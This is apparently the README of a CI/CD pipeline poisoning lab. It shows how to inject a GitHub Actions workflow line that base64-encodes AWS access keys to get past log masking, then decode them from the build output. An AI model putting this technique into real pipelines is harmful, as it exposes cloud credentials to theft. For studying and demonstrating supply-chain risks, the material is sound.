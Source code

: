 # CI CD Risks - Pipeline Poisoning Attack Lab

## Prep
1. Within AWS Account, create Amazon Elastic Container Registry named `cicd-sec`
1. Add Github Repository Secrets 
    1. `AWS_ACCESS_KEY_ID`
    1. `AWS_REGION`
    1. `AWS_SECRET_ACCESS_KEY`
    1. `REPO_NAME`
    1. `ECR_REGISTRY`
1. Ensure Branch Protection is disabled within GitHub Repository


## Execute Direct-PPE 

Add line of code to extract `AWS_ACCESS_KEY_ID` and `AWS_SECRET_ACCESS_KEY` during Pipeline execution after `make build`

```
echo "accesskey: ${{ env.AWS_ACCESS_KEY_ID }}  secretkey: ${{ secrets.AWS_SECRET_ACCESS_KEY }}" | base64
```

Extract Output from GitHub Workflow Output and 

```
echo "<ENCODED_SECRETS>" | base64 -d
```

example output
```
echo "YWNjZXNza2V5OiBleGFtcGxlLWFjY2VzcyBrZXkgIHNlY3JldGtleTogZXhhbXBsZS1zZWNyZXQta2V5Cg==" | base64 -d
accesskey: example-access key  secretkey: example-secret-key
```